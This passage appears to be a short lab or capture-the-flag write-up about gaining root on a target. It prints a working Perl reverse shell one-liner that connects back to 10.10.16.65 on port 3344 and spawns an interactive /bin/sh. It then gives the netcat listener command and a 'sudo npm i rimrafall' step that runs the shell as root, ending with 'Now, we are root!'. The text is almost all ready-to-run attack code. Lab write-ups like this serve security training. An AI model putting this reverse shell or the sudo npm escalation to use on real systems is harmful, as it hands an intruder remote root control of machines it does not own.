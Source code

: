 ```
#prel3
use Socket;$i="10.10.16.65";$p=3344;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};
```

Set kali listen to port 3344: `nc -lvnp 3344`. In the victim, executed by: `sudo npm i rimrafall`. Now, we are root!

![EvqfaR.png](https://s2.ax1x.com/2019/05/20/EvqfaR.png)


